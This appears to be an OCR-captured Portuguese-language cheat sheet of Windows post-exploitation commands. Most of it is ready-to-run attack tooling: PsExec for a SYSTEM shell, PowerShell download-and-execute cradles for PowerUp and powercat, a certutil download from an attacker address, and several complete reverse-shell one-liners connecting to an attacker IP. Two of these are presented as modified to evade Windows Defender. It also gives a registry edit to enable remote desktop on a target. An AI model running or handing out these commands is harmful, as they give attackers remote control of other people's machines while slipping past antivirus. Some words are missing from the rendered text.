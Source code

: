 FERRAMENTAS E COMANDOS ÚTEIS

-Psexec: Download em: https://download.sysinternals.com/files/PSTools.zip
          PsExec64.exe -s -accepteula  cmd.exe –i: Chamar um shell de system

-Powerup.ps1(Ferramenta para buscar pontos de enumerar/escalação de privilegio):
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"

-Powercat.ps1(Powercat: Script p obter o shell reverso/bind e tunelamento cmd e powershell):
powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.201.10 -p 8001 -e cmd"

-Executar script sem necessidade de fazer download dele no disco do alvo (IEX):
powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-ObjectNet.WebClient).downloadString('http://192.168.1.2:8000/exploit.ps1')"

-Plink(Criar script.bat ):
cd C:\Program Files\PuTTY
PLINK.EXE –i F:\key\key.ppk user@ip –no-antispoof –ssh sh script.sh
exit

-Ssh/scp (transferir arquivos, tunelamentos, etc)

-certutil -urlcache -split -f http://ip_atacante:porta/arquivo nome_do_arquivo (download arq):


-Nc.exe: Ferramenta para conexões de redes (igual do linux). (/usr/share/windows-binaries)

powershell.exe -ExecutionPolicy Bypass -noLogo -Command "$client = New-Object System.Net.Sockets.TCPClient('IP-ATACANTE',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()": Comando para pegar um shell reverso de powershell (Comando tirado da internet, o  windows defender consegue bloquear)


cmd.exe /c powershell.exe -ExecutionPolicy Bypass -noLogo -c "$client = New-Object System.Net.Sockets.TCPClient(echo IP-ATACANTE,8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.utf8Encoding).GetString($bytes,0, $i);$sendback = (powershell.exe -c $data 2>&1 | out-string);$sendback2 = $sendback + (pwd).Path + (echo `>` );$sendbyte = ([text.encoding]::utf8).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()": Comando para pegar um shell reverso de powershell (Esse comando foi modificado, o Windows defender não pega [não postem na internet!!])


cmd.exe /c powershell.exe -ExecutionPolicy Bypass -noLogo -c "$client = New-Object System.Net.Sockets.TCPClient(echo IP-ATACANTE,8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.utf8Encoding).GetString($bytes,0, $i);$sendback = (cmd.exe /c $data 2>&1 | out-string);$sendback2 = $sendback + (pwd).Path + (echo `>` );$sendbyte = ([text.encoding]::utf8).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()": Comando para pegar um shell reverso de cmd (Esse comando foi modificado, o Windows defender não pega [não postem na internet!!])


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f: Comando para editar chave do registro para tentar ativar o  na maquina (Nem todas as versões do Windows possuem suporte a !).

rdesktop IP_do_alvo: Client  para Linux, para logar em uma maquina windows via . 

free /u:usuario /p:senha /w:1366 /h:768 /v:IP_DO_ALVO /smart-sizing +auto-reconnect : Client  para Linux, para logar em uma maquina Windows via .

remmina: Client de acesso remoto para Linux, para logar em maquinas via  ou VNC.

GOOGLE!! 

-----------------------------------------------------------------
